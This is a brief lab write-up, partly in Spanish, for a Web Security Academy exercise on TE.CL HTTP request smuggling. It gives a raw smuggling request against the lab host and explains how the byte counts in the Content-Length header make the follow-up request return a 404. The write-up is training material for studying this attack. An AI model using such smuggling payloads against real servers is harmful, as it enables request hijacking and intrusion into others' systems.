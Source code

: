 ```yaml
---
layout: default
title: 05 - HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
---
```

```HTTP
POST / HTTP/1.1\r\n
Host: 0af700db040ed06784fb6e4700d700b0.web-security-academy.net\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 4\r\n
\r\n
67\r\n
POST /notFound HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
foo=bar\r\n
0\r\n
\r\n
```

El segundo content length es 14+1 porque 14 bytes son :

```HTTP
foo=bar\r\n
0\r\n
\r\n
```

y 1 extra para que cuando inicie la request normal  se devuelva la respuesta del POST  a /notFound, en concreto se devolverá un 404 de esta petición :

```HTTP
POST /notFound HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
foo=bar\r\n
0\r\n
\r\n
```
